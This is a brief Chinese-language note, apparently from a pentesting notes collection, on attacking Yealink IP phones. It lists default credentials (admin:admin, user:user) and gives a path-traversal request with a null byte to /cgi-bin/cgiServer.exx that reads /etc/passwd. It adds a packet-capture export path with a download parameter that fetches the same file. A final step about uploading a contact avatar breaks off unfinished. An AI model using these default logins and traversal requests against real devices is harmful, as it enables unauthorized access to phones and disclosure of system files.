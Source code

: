 ## yealink
默认密码admin：admin
user：user

访问url//cgi-bin/cgiServer.exx?page=../../../../../../etc/passwd%00

话机配置>升级>抓包>开始>结束>导出
/cgi-bin/cgiServer.exx?download=/etc/passwd

联系人>本地联系人>选择文件>上传头像>删除>